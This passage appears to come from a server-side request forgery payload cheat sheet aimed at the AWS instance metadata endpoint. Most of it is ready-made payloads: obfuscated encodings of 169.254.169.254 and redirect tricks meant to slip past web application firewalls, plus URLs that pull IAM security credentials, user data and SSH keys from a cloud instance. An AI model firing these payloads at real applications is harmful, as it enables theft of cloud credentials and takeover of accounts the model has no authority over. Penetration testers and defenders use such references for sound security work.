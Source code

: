 * IPv6 endpoint: `http://[fd00:ec2::254]/latest/meta-data/` 

In case of a WAF, you might want to try different ways to connect to the API.

* DNS record pointing to the AWS API IP
  ```powershell
  http://instance-data
  http://169.254.169.254
  http://169.254.169.254.nip.io/
  ```
* HTTP redirect
  ```powershell
  Static:http://nicob.net/redir6a
  Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
  ```
* Encoding the IP to bypass WAF
  ```powershell
  http://425.510.425.510 Dotted decimal with overflow
  http://2852039166 Dotless decimal
  http://7147006462 Dotless decimal with overflow
  http://0xA9.0xFE.0xA9.0xFE Dotted hexadecimal
  http://0xA9FEA9FE Dotless hexadecimal
  http://0x41414141A9FEA9FE Dotless hexadecimal with overflow
  http://0251.0376.0251.0376 Dotted octal
  http://0251.00376.000251.0000376 Dotted octal with padding
  http://0251.254.169.254 Mixed encoding (dotted octal + dotted decimal)
  http://[::ffff:a9fe:a9fe] IPV6 Compressed
  http://[0:0:0:0:0:ffff:a9fe:a9fe] IPV6 Expanded
  http://[0:0:0:0:0:ffff:169.254.169.254] IPV6/IPV4
  http://[fd00:ec2::254] IPV6
  ```


These URLs return a list of IAM roles associated with the instance. You can then append the role name to this URL to retrieve the security credentials for the role.
```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]

# Examples
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
```

This URL is used to access the user data that was specified when launching the instance. User data is often used to pass startup scripts or other configuration information into the instance.
```powershell
http://169.254.169.254/latest/user-data
```

Other URLs to query to access various pieces of metadata about the instance, like the hostname, public IPv4 address, and other properties.
```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/document
```
